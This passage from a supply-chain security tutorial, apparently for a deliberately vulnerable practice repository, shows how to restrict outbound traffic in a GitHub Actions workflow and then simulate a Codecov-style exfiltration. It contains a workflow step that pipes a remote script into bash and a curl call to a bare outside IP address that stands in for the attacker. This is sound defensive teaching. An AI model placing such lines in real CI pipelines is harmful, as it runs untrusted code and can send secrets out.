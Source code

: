 4. This change should cause the workflow to run, as it is set to run on push. Click on the `Actions` tab to view the workflow run. 

5. You should see a link to security insights and recommendations for the workflow run. 

    <img src="https://raw.githubusercontent.com/step-security/supply-chain-goat/main/images/InsightsLink.png" alt="Link to security insights" width="800">


6. Click on the link. You should see outbound traffic correlated with each step of the workflow. An outbound network policy would be recommended. 

7. Update the `ci.yml` workflow with the policy. The first step should now look like this. From now on, outbound traffic will be restricted to only these domains for this workflow. 

    ```
    - uses: step-security/harden-runner@v1
      with:
        allowed-endpoints: 
          codecov.io:443
          github.com:443
    ```
    For a seamless experience, StepSecurity recommends copying the full code from [here](https://github.com/step-security/supply-chain-goat/blob/main/sourcecodes/tut1/p7.md) and replacing the previous text entirely.

8. Simulate an exfiltration attack similar to Codecov. Update the workflow and add the following statement. The bash uploader is no longer vulnerable, but when it was, it would have made an additional outbound call, which is being simulated here. 

    ```
    - name: Upload coverage to Codecov
      run: |
        bash <(curl -s https://codecov.io/bash)
        curl -X GET http://104.248.94.23   
    ```
    For a seamless experience, StepSecurity recommends copying the full code from [here](https://github.com/step-security/supply-chain-goat/blob/main/sourcecodes/tut1/p7.md) and replacing the previous text entirely.

9. This change should cause the workflow to run, as it is set to run on push.

10. Observe that the workflow fails because the call is blocked. Click the link to security insights. You can see that blocked calls are shown in Red color in the insights page. 

    <img src="https://raw.githubusercontent.com/step-security/supply-chain-goat/main/images/RestrictOutboundCall.png" alt="Blocked calls are shown in Red" width="800">
